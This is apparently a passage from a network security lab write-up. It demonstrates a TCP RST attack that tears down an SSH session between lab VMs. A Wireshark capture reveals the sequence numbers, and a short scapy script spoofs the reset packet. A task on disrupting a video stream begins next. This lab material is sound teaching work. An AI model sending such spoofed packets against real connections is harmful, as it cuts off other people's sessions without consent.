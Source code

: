 ### scapy

Similar to [the one on `telnet`](#tcp-rst-attack-on-ssh-connection), Capture the last `ssh` packet from the server to the user (applied with filter `ssh`) using Wireshark on the attacker machine:

> Transmission Control Protocol, Src Port: 22, **Dst Port: 55494**, Seq: 565175980, **Ack: 3567039357**, Len: 52
>     Source Port: 22
>     Destination Port: 55494
>     [Stream index: 0]
>     [TCP Segment Len: 52]
>     Sequence number: 565175980
>     **[Next sequence number: 565176032]**
>     Acknowledgment number: 3567039357
>     Header Length: 32 bytes
>     Flags: 0x018 (PSH, ACK)
>     Window size value: 291
>     [Calculated window size: 291]
>     [Window size scaling factor: -1 (unknown)]
>     Checksum: 0x3440 [unverified]
>     [Checksum Status: Unverified]
>     Urgent pointer: 0
>     Options: (12 bytes), No-Operation (NOP), No-Operation (NOP), Timestamps
>     [SEQ/ACK analysis]

Although the data is encrypted, the TCP header is simply readable plain-text. Then a spoofed RST packet can be composed and sent with [`rst_ssh.py`](./rst_ssh.py):

```python
from scapy.all import *

ip = IP(src="10.0.2.4", dst="10.0.2.5")
tcp = TCP(sport=22, dport=55494, flags="R", seq=565176032, ack=3567039357)

pkt = ip / tcp
ls(pkt)
send(pkt, verbose=0)
```
Turn to the user machine, the `ssh` connection is broken as expected:

![](./ssh_rst_2.png)

# Task 3

Assume that a user is watching YouTube video from the VM `10.0.2.4` (For better performance, you might clear up local history, data, and cookies of the browser on the user machine). We launch the attack from the attacker machine in the same subnet.
